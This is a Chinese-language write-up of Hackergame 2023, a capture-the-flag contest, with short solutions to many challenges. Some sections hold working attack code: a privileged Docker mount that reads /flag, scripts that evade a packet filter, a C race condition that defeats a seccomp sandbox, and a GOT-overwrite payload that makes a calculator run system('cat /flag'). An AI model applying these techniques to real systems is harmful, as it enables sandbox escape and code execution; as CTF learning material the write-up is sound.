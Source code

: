 = Hackergame 2023 WriteUp

== Hackergame 启动！

url 后面 `/?similarity=114514` 即可启动。获取 flag 前记得开最大亮度和音量。

试了一下 pipewire 把输出拉进输入，不行，响度和时间差都搞不定，看完官方 writeup 发现颜色都不对，哈哈。

== 猫咪#strike[问答]小测

T1: fuzz 一下，楼应该不会很高，吧？

T2: 搜到了#link("https://www.zhihu.com/question/20337132/answer/3023506910")[一篇知乎]

T3: `zgrep BBR /proc/config.gz`

T4: 搜到了#link("https://news.ycombinator.com/item?id=32779296")[HN]

== 更深更暗

F12 搜一下 `flag{`

== 赛博井字棋

卡了很久，甚至试了越界下棋。然后发现是能覆盖对面的棋子，复制一个 fetch 塞到 console 里面改一下就好。

== 奶奶的睡前 flag 故事

大约需要水群/水HN，就能一眼看出是 Pixel 裁切图片不 truncate 文件的那个 bug。

发现一个网站 https://acropalypse.app/

机型不会选。看原图，宽 1080，直接点 custom，W 改成 1080，长无所谓，交给 png parser 自由发挥吧，至少 firefox 显示出来了。

== 组委会模拟器

大模拟，只会写 python...

```py
import requests
import time
import re
urlbase = "http://202.38.93.111:10021/"
checktoken = urlbase + "/api/checkToken"
getmessage = urlbase + "/api/getMessages"
delmessage = urlbase + "/api/deleteMessage"
getflag = urlbase + "/api/getFlag"

session = requests.Session()
session.get(checktoken, params={"token": "2:MEUCIQC40y4XGGJHH303roxcGXaDxmkE4GJ2yKBAgnkWdSwY+gIgP45PlTy+3eAQsjd1iwdHxPBJwC7sjzwzs3K3ZJ3Z4OY="})
messages = session.post(getmessage).json()

start = time.time()
for i, m in enumerate(messages["messages"]):
    if len(re.findall(r'hack\[[a-z]+\]', m['text'])):
        time.sleep(max(0, start + m['delay'] + 0.2 - time.time()))
        print(m)
        session.post(delmessage, json={"id": i})
print(session.post(getflag).text)
```

== 虫

SSTV

qsstv #strike[再次]安装，mpv/helvum 启动！

== JSON #sym.subset YAML

搜索发现 YAML 1.1 对于科学记数法处理不同，输入 `{"a": 1145e4}` 即可。

继续看 YAML Spec 里面的 #link("https://yaml.org/spec/1.2.2/ext/changes/")[changelog]，发现提到

#quote[1.3. Relation to JSON: Added paragraph 4 to section 1.3 to clarify JSON compatibility in the presence of duplicate mapping keys (pointed out by Osamu Takeuchi).]

也就是说对于重复的 key 处理会有区别，尝试 `{"a": 1, "a": 2}`，发现可以使 YAML 1.2 报错。

== Git? Git!

```
$ git fsck --lost-found
dangling commit 505e1a3f446c23f31807a117e860f57cb5b5bb79
$ git show 505e1a3f446c23f31807a117e860f57cb5b5bb79
+  <!-- flag{TheRe5_@lwAy5_a_R3GreT_pi1l_1n_G1t} -->
```

有一种既视感，总感觉在之前的 hackergame 或者什么解谜类里面做过，那个好像是 git add 之后 reset，没有 commit。

== HTTP 集邮册

做的时候没收集，现在也想不起来了，摆了。大部分就是对着 status code 的定义试。

第二题脑子抽了甚至试了一下 afl 跑 nginx，效果太差，也没做出来。

== Docker for Everyone

```
docker run -it --rm \
    --mount type=bind,source=/dev/shm,target=/mnt \
    --privileged \
    alpine \
    cat /mnt/flag
```

== 惜字如金2

数了一下 `flag{}` 所在位置，给不太对的地方加了个 '.'，输出是 `flag{yo.-ve-r3cover3d-7he-an5w3r-r1ght?}`，再猜一下 you 的 u 不太容易 l337，改成 you 发现过了。

```py
    cod_dict += ['nymeh1niwemflcir}echaet.']
    cod_dict += ['a3g7}kidgojernoetlsup?h.']
    cod_dict += ['.ulw!f5soadrhwnrsnstnoeq']
    cod_dict += ['.ct{l-findiehaai{oveatas']
    cod_dict += ['.ty9kxborszstguyd?!blm-p']
```

== 低带宽星球

照着给出的图片在 inkscape 里面画 svg，然后删掉 inkscape 的废话，最终 svg 仍然不够小，emf 和 wmf 似乎不被支持，找不到能被 vips/magick 读取的二进制矢量图格式，不会了。

```xml
<svg width="1024" height="1024" xmlns="http://www.w3.org/2000/svg"><rect style="fill:#5d62d3;" width="364" height="1024" x="0"/><rect style="fill:#5a7234;" width="293" height="1024" x="364"/><rect style="fill:#58e50d;" width="367" height="1024" x="657"/></svg>
```

看完官方 writeup: JPEG XL 应该在我看到 JPEG 的时候就被放弃掉了，总觉得这各大小限制下应该是矢量图，JPEG 这个名字怎么看都应该是 raster，直接排除掉了。

== 高频率星球

先 asciinema cat，发现 less 退出时会恢复终端状态，用 vim 打开，发现是类似 jsonl 的格式，看 less 之后发生了什么。注意到

```json
[6.926757, "o", "\u001b[?1049h\u001b[?1h\u001b=\r"]
```

其中 `CSI ? 1049 h` 为 alt buffer 指令，删掉这条指令。对应的，在结尾应当还有一条 `CSI ? 1049 l`（`"\u001b[?1049l"`）， 也删掉。再 asciinema cat 就能看到完整输出了。这时候打开 tmux

```
set-option -g history-limit 100000
<run asciinema cat>
capture-pane -S -
save-buffer /tmp/flag.js
```

删掉首尾多余部分并运行即可。

#link("https://en.wikipedia.org/wiki/ANSI_escape_code")[`https://en.wikipedia.org/wiki/ANSI_escape_code`]

好像 ANSI escape code 也不是第一次出现在 hackergame 里面了。

== 流式星球

试。唯一可说的就是试了半天被眼前突然弹出来的 BanG Dream! 气笑了。

== Komm, süsser Flagge

=== POST

传统艺能，关键词分开发

```py
import socket
req = """POST / HTTP/1.1\r
Host: 192.168.23.1\r
Content-Length: 98\r
\r
2:MEUCIQC40y4XGGJHH303roxcGXaDxmkE4GJ2yKBAgnkWdSwY+gIgP45PlTy+3eAQsjd1iwdHxPBJwC7sjzwzs3K3ZJ3Z4OY=
"""
conn = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
conn.connect(("202.38.93.111", 18080))
conn.sendall(req[:1].encode())
conn.sendall(req[1:].encode())
print(conn.recv(1024))
```

=== P

发现第二个 u32 也可以这么过，可能是因为 tcp payload 仅有 1byte，长度不够 u32 规则生效。

看到 flag 里面说 reserved 发现是非预期了（

=== GET

第三个需要在包头找地方塞入关键词，发现 TCP 报文头中 Options 是变长的，使用 scapy 模拟 tcp 握手并发送 POST 请求。结果可以在 wireshark 中找到。注意需要加 iptables 把本机内核发的 RST 给 DROP 掉，否则连接会被内核断掉。

```py
from scapy.all import *
import random
sport = random.randint(30000,40000)
seq = random.randint(0, 1<<32)
magic = b"GET / HTTP"
req = "" # 同上

ip = IP()
ip.dst = '192.168.23.1'
syn = TCP(sport=sport, dport=18082, options=[(0x99, magic)])
synack = sr1(ip/syn)
ack = TCP(seq=synack.ack, ack=synack.seq + 1, sport=sport, dport=18082, flags="A", options=[(0x99, magic)])
send(ip/ack)
pa = TCP(seq=synack.ack, ack=synack.seq + 1, sport=sport, dport=18082, flags="PA", options=[(0x99, magic)])
send(ip/pa/req)
```

== 为什么要打开 /flag

=== LD_PRELOAD

静态编译即可

=== Seccomp

对着 ALLOWLIST 中的 clone syscall 看了半天感觉很不爽，觉得可能有 race condition，试了一下确实有。

supervisor 进程读 open(2) 的第一参数到该参数最终被 kernel 读取之间存在被另一个线程修改内存的可能。在另外一个进程里面反复修改第一个参数内容即可。

```c
int another_thread(volatile void *ptr) {
    volatile long long *s = ptr;
    for(;;) {
        *s = 0x67672f6e69622f;   // /bin/gg
        *s = 0x67616c662f;       // /flag
    }
}

int main() {
    volatile char fn[8] = {0};
    void *stack = malloc(4096);
    clone(another_thread, stack, CLONE_VM|CLONE_FS|CLONE_FILES|CLONE_SIGHAND|CLONE_THREAD|CLONE_SYSVSEM|CLONE_SETTLS|CLONE_PARENT_SETTID|CLONE_CHILD_CLEARTID, fn);
    for(int i=1;i<1000;i++) {
        int fd = openat(AT_FDCWD, fn, O_RDONLY);
        if (fd < 0) continue;
        char buf[1024];
        size_t len = read(fd, buf, 1024);
        close(fd);
        fwrite(buf, len, 1, stdout);
    }
    return 0;
}
```

拿到 flag 才发现这件事在 man 里写着...

== 异星歧途

逻辑在紫色的逻辑处理器中编写。不要右键，不要右键，不要右键。

=== 左1

对开关的状态要求直接写出，开关拨为 `10100101` 即可

=== 左2

打开逻辑处理器发现它将 8 位数字编码为一个整数，验证其是否为平方数，且 `10000100` 两位必须为 1，简单筛选一下，只有 196 满足要求，即 `0b11000100`

=== 右2

发现逻辑处理器控制一些元件。两个 conduit 导致漏水，不能开，否则冷却液不足，sw8 必须为左2最低位，为0；sw4 为 0。sw1 控制反应堆原料，要开。sw2 控制 gate1，若开则所有原料销毁，不开。sw3 关，则反应堆开。sw5 为生产冷却液必须，开。sw6 为 extractor 为 mixer 提供水，开。sw7 控制两个 meltdown，消耗大量电力，导致各种机器不可用，关。最终 `10001100`。

=== 右1

一系列门电路，逻辑大概是 

```c
t1 = !(!sw1 && sw2) // false
t2 = sw3 && sw4     // true
t3 = !sw5 && sw6    // true
t4 = !(sw7 && sw8)  // true
t5 = !t1 && t2      // true
t6 = !t3 || !t4     // false
out = t5 && !t6     // true
```

最终 `01110111`

== MyCalculator

阅读代码，发现 GET/PUT 功能只检查了上界没有检查下界，但 number 被定义为 `[0-9]+`，需要整数溢出才能实现负数下标。

溢出后可以读写大部分 `.data` 段内数据，包括 got 表和 stdio 的一系列 FILE 对象。选择 fprintf 和 stderr 进行修改。

由于从文件读会有 buffer，不能先启动 `/bin/sh` 再 `cat flag`，选择直接 `system("cat /flag")`。

`cat /flag` 我放在了 `result_buffer` 里面，取了个绑定前指向 plt 的 got 表指针，算一下偏移量塞进 stderr 所在地址。

同样由于交互条件限制，偏移量计算必须在线完成，#strike[还好这东西是个计算器]，先发送一个 dump `result_buffer` 之前 256 bytes 的 payload，确定 libc 版本和偏移量，再写死 offset。

最终 payload
```
544498019   // "cat "
1634493999  // "/fla"
103         // "g\x00"
g           // got bind fprintf
PUT 4294967288 GET 4294967232 + 20682   // fprintf@got = system
PUT 4294967289 GET 4294967233
PUT 4294967252 GET 4294967234 + 150976  // stderr = &result_buffer
g           // trigger fprintf(stderr, ...) -> system("cat /flag\0")
```
